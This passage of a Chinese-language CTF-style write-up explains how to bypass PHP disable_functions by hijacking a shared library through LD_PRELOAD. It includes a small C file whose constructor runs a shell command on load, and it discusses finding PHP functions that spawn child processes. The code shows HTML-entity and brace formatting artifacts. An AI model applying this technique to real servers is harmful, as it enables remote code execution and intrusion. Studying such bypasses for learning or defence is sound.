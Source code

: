 我们查看一下

```
root@sky:~# cat /tmp/sky
bin
boot
dev
etc
home
lib
lib32
....
```

发现成功执行命令



## 改进版(hijack shared library)

但其实这个方法是将条件变得严苛了，我们干的事情局限于找到一个函数，然后对其进行注入

但实际上我们可以更加直接，我们先将sendmail进行删除

[![](https://p4.ssl.qhimg.com/t011363df8d77bc765d.png)](https://p4.ssl.qhimg.com/t011363df8d77bc765d.png)

如图所示现在已经没有了sendmail，但我们依旧可以进行rce，可使用如下文件sky.c

```
#define _GNU_SOURCE
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/types.h&gt;

__attribute__ ((__constructor__)) void angel (void)`{`
    unsetenv("LD_PRELOAD");
    system("ls");
`}`
```

其中`__attribute__ ((__constructor__))`有如下说明

```
1.It's run when a shared library is loaded, typically during program startup.
2.That's how all GCC attributes are; presumably to distinguish them from function calls.
3.The destructor is run when the shared library is unloaded, typically at program exit.
```

所以当我们最开始将evil shared library load上后，就会触发`__attribute__ ((__constructor__))`，从而达成我们rce的目的.



## 函数寻找

但本题中mail函数已被disable_functions限制，所以我们并不能按照上述模式进行攻击。那么我们要找到一个什么样的函数才能满足我们的条件呢？

从上述内容不难发现，我们必须找到一个能在运行时候启动子进程的函数才行，因为我们设置了环境变量，必须restart才能生效，所以如果能启动一个子进程，那么我们的设置的LD_PRELOAD就会加载我们的evil shared library.
